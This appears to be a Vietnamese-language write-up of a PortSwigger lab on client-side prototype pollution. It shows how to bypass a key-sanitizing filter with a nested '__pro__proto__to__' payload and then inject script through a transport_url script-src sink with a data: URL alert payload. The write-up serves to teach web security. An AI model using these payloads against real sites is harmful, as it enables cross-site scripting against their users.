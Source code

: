 ```yaml
---
title: Client-side prototype pollution via flawed sanitization
date: 2023-04-19 12:13:13 +0700
categories: [Websec, PortSwigger, Prototype Pollution]
tags: [serverside, prototype_pollution]    # TAG names should always be lowercase
---
```


1. Nhận thấy trong resource, ở searchLoggerFiltered.js có hàm `sanitizeKey()` sẽ filter các key như `__proto__`, `constructor`, `prototype`

![image](https://user-images.githubusercontent.com/80744099/231054720-4286a5f6-c8c9-4c88-8b78-2316281cccf0.png)

2. Bypass filter bằng payload 
- ```?__pro__proto__to__[testKey]=testValue```

![image](https://user-images.githubusercontent.com/80744099/231054812-7c5a2a99-da82-4363-9c2e-e310e7090e4d.png)

3. Detect sink 

```
let script = document.createElement('script');
script.src = config.transport_url;
document.body.appendChild(script);
```

4. Chèn payload ``?__pro__proto__to__[transport_url]=data:,alert(1)//``

![image](https://user-images.githubusercontent.com/80744099/231056568-4285182b-03c9-4833-b0d4-03f02839ed8e.png)
